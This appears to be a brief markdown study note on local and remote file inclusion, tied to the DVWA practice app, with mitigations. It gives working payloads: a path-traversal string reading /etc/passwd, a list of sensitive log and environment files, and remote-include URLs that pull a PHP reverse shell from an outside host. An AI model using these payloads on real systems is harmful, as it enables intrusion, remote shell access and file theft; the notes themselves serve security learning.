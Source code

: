 # File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```

- Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```

- Bypass
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable *"allow_url_fopen = On"* & *"allow_url_include = On"*

## Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
